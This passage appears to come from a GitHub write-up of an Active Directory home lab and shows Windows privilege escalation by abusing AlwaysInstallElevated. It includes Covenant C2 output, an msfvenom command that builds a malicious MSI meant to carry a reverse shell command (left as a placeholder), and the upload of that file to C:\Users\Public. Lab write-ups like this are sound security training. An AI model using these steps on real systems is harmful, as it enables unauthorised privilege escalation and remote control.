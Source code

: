 ```powershell
07/24/2023 15:21:44 UTC] PowerShell completed

(singhx) > powershell invoke-allchecks


[*] Running Invoke-AllChecks

[*] Checking for AlwaysInstallElevated registry key...

AbuseFunction : Write-UserAddMSI

```
- In order to abuse this feature, we need to generate a malicious payload using msfvenom.
- In cmd use reverse shell encoded command using covenant.

  ![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/b1a8d3ff-53b2-4023-920f-68f5c1987843)

```bash
└─$ msfvenom -p windows/exec CMD="<powershell cmd>" -f msi -o installer.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 449 bytes
Final size of msi file: 159744 bytes
Saved as: installer.msi
```

- Using the Covenant upload function we will upload generated malicious file to our target.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/6f67f5ce-c269-44d9-b308-8da78df23959)

- Change the working directory in Covenant to Public.

``` powershell
[07/24/2023 15:34:44 UTC] ChangeDirectory completed

(singhx) > ChangeDirectory C:\Users\Public\

C:\Users\Public

[07/24/2023 15:34:52 UTC] ListDirectory completed

(singhx) > ListDirectory

Name                             Length  CreationTimeUtc       LastAccessTimeUtc     LastWriteTimeUtc

----                             ------  ---------------       -----------------     ----------------
C:\Users\Public\desktop.ini      174     12/7/2019 9:14:54 AM  7/24/2023 3:34:22 PM  12/7/2019 9:12:42 AM

C:\Users\Public\Installer,msi    159744  7/24/2023 3:34:22 PM  7/24/2023 3:34:22 PM  7/24/2023 3:34:22 PM
```
